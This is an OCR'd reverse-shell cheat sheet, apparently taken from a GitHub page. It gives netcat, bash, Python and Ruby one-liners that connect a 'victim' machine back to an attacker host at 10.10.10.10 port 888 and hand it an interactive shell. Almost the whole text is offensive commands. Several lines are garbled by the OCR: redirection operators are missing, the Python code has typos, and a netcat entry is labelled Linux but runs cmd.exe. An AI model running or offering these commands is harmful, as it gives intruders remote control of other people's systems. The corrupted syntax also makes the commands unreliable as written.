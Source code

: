 # Reverse Shell Commands
The following are some useful commands to start listeners and reverse shells in Linux and Windows-based systems.

## Netcat Linux Reverse Shell
`nc 10.10.10.10 888 -e /bin/sh`
* 10.10.10.10 is the IP address of the machine you want the victim to connect to.
* 888 is the port number (change this to whatever port you would like to use, just make sure that no firewall is blocking it).

## Netcat Linux Reverse Shell
`nc 10.10.10.10 888 -e cmd.exe`
* 10.10.10.10 is the IP address of the machine you want the victim to connect to.
* 888 is the port number (change this to whatever port you would like to use, just make sure that no firewall is blocking it).

## Using Bash
`bash -i & /dev/tcp/10.10.10.10/888 0 &1`

## Using Python
`python -c 'import socket, subprocess, os; s=socket. socket (socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.10.10.10",888)); os.dup2(s.fileno(),0); os.dup2(s.fileno(l,1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'` 

## Using Ruby
`ruby -rsocket -e'f=TCPSocket.open("10.10.10.10",888).to_i; exec sprintf("/bin/sh -i &%d &%d 2 &%d",f,f,f)'`
